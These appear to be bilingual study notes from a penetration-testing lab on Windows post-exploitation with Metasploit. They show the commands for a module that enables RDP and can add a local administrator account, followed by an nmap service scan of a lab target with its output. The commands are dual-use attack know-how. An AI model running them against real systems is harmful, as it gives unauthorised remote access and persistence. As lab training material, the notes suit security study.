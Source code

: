 Windows 管理启用远程桌面

此模块启用远程桌面服务 (RDP)。它提供了创建帐户并将其配置为本地管理员和远程桌面用户组成员的选项。它还可以转发目标的端口 3389/tcp。

This module allow you to enable RDP on the target.

We could be able to establish an RDP session with the target system. But as I said, we will be exploring RDP during the Windows exploitation section. So once we have explored privilege escalation persistence, we'll take a look at how to enable RDP and how to access the target via RDP.

```
search rdp platform:windows
use post/windows/manage/enable_rdp
show options
set SESSION 1
run 
```

# Windows Post Exploitation Modules（Windows Post 漏洞利用模块）
## Overview
Goal

This lab covers the process of automating various phases of post-exploitation through the use of various Metasploit modules.

目标

本实验涵盖了通过使用各种 Metasploit 模块自动执行后期利用的各个阶段的过程。

Target IP Address : 10.0.29.158

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > workspace -a windows_post
[*] Added workspace: windows_post
[*] Workspace: windows_post
msf5 > setg RHOSTS 10.0.29.158
RHOSTS => 10.0.29.158
msf5 > db_nmap -sV 10.0.29.158
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-12 17:04 IST
[*] Nmap: Nmap scan report for 10.0.29.158
[*] Nmap: Host is up (0.0027s latency).
[*] Nmap: Not shown: 990 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49165/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 76.86 seconds
msf5 > services
Services
========

host         port   proto  name               state  info
----         ----   -----  ----               -----  ----
10.0.29.158  80     tcp    http               open   HttpFileServer httpd 2.3
```
